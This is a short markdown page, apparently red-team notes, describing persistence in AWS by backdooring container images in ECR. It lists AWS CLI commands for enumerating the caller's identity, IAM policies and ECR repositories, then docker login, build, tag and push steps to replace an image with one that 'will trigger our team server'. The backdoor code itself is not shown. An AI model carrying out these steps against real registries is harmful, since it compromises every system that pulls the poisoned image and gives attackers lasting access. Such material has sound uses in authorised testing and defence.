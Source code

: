 # Persistence

### It's possible to modify an existing docker image with a backdoor, when this image is used it will trigger our team server.

## Steps:

#### 1) Enumerating the user

 - aws sts get-caller-identity

#### 2) Listing manager policies attached to the IAM role

 - aws iam list-attached-role-policies --role-name NAME

#### 3) Getting information about the version of the managed policy

 - aws iam get-policy-version --policy-arn ARN --version-id ID

#### 4) Getting information about the repositories in container registry

 - aws ecr describe-repositories

#### 5) Listing all images in the repository

 - aws ecr list-images --repository-name NAME

#### 6) Listing information about an image

 - aws ecr describe-images --repository-name NAME --image-ids imageTag=NAME

#### 7) Authenticate the docker daemon to ECR

 - aws ecr get-login-password --region REGION | docker login --username AWS --password PASSWORD

#### 8) Building images with backdoor

 - docker build -t IMAGE_NAME

#### 9) Tagging the docker image

 - docker tag IMAGE_NAME ecr_addr:Image_Name

#### 10) Pushing the image to ECR

 - docker push ecr_addr:Image_Name
